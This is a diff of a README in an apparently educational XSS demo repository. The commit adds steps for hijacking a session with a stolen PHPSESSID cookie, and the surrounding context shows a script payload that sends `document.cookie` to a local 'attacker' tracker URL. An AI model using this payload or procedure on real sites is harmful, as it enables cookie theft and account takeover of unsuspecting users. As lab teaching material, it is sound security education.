

Before and after one commit to Mzati1/XSS-demo, a Markdown page: README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
session stealing

````diff
--- a/README.md
+++ b/README.md
@@ -39,6 +39,12 @@ The "Data Type" column categorizes the stolen information:
   ```html
   <script>new Image().src="http://localhost:8000/attacker/tracker.php?sid=" + document.cookie;</script>
   ```
+- **How to Execute**:
+  1. Inject the payload into a vulnerable field (like the search bar).
+  2. Visit the attacker dashboard to view the stolen `PHPSESSID` cookie.
+  3. Open a new browser or private window and navigate to `http://localhost:8000`.
+  4. Use browser developer tools to manually set the `PHPSESSID` cookie to the value you stole.
+  5. Refresh the page. You will now be logged in as the victim.
 
 ### 3. Defacement
 **Objective**: Visually alter the website.
````
